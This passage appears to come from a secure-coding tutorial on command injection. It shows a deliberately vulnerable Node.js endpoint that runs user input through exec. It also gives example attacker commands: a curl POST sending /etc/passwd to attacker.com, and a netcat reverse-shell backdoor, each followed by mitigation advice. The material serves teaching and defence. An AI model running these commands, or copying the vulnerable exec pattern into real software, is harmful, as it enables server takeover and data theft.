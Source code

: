 ```php
<?php
$ip = filter_var($_GET['ip'], FILTER_VALIDATE_IP);
if ($ip) {
    echo shell_exec("ping -c 4 " . $ip);
}
?>
```

* * *

### 3\. Redirecting Output & Exfiltrating Data

Attackers can **redirect output** of commands to external servers.

**Example (Vulnerable Node.js Code)**

```js
const { exec } = require('child_process');
app.get('/run', (req, res) => {
    let cmd = req.query.cmd;
    exec(cmd, (error, stdout, stderr) => {
        res.send(stdout);
    });
});
```

**Attacker Input:**

```bash
cat /etc/passwd > /tmp/output.txt && curl -X POST http://attacker.com --data @/tmp/output.txt
```

This sends user credentials to an external attacker-controlled server!

### **Fix**

- Use predefined command lists instead of executing raw user input.
- Run commands in isolated environments (e.g., Docker, chroot, SELinux).
- Restrict outgoing network connections to prevent data exfiltration.

* * *

### 4\. Writing Backdoors & Persistent Access

Once an attacker gets command execution, they can install backdoors.

**Example Attack:**

```bash
echo 'nc -e /bin/bash attacker.com 4444' > /tmp/backdoor.sh; chmod +x /tmp/backdoor.sh; /tmp/backdoor.sh
```

This opens a reverse shell, allowing the attacker to control the server remotely.

### **Fix**

